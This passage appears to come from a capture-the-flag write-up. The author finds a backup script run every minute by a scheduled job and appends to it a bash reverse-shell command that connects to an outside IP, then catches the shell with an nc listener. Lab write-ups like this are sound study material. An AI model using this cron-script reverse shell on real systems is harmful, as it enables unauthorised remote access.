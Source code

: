 We can see from the dates of the first that the archive file is recently created, whereas the backup script is not. It seems to be updated every minute, as seen from the screenshot below, so we can echo a bash reverse shell into the backup.sh script:

![](images/2020-08-24-22-30-21.png)

echo "/bin/bash -c 'bash -i >& /dev/tcp/10.8.82.167/5555 0>&1'" >> backup.sh

And we wait on our nc listener:

![](images/2020-08-24-22-32-54.png)

And we get a shell!
